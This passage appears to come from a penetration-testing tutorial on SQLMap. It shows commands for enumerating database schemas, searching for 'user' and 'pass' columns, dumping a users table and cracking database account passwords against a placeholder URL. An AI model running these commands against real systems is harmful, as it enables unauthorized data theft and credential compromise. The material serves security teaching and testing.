 
## DB Schema Enumeration

```shell-session

sqlmap -u "http://www.example.com/?id=1" --schema
```
## Searching for Data

When dealing with complex database structures with numerous tables and columns, we can search for databases, tables, and columns of interest, by using the `--search` option. This option enables us to search for identifier names by using the `LIKE` operator. For example, if we are looking for all of the table names containing the keyword `user`, we can run SQLMap as follows:

```shell-session

sqlmap -u "http://www.example.com/?id=1" --search -T user
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session

sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

## Password Enumeration and Cracking

```shell-session

sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

## DB Users Password Enumeration and Cracking

SQLMap has a special switch `--passwords` designed especially for such a task:

```shell-session
sqlmap -u "http://www.example.com/?id=1" --passwords --batch
```

 The '--all' switch in combination with the '--batch' switch, will automa(g)ically do the whole enumeration process on the target itself, and provide the entire enumeration details.
